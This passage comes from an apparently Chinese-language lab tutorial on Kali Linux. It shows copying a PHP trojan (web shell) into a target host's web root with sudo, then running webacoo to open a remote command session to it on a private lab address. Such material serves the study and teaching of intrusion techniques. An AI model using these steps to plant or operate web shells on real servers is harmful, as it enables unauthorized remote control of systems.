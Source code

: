 ![图片描述](../imgs/1480993732499.png-wm_1.png)

将木马文件，复制到网站的根目录下，这里注意，要加 `sudo` 权限：

```
# 将木马文件，复制到目标主机的网站目录下
sudo cp /tmp/hello.php /var/www/html/
```
### 4.4 感染目标主机并创建会话

在将木马程序上传至目标主机后，在 Kali Linux 的终端中，输入如下命令创建会话通道：

```
# 连接目标主机，建立会话
webacoo -t -u http://192.168.122.1/hello.php
```

成功之后，命令行前缀发生了变化，如下图所示：

![图片描述](../imgs/1481014707333.png-wm.png)

**注意：成功后终端前缀 `root@Kali:` 变成了 `webacoo$`**
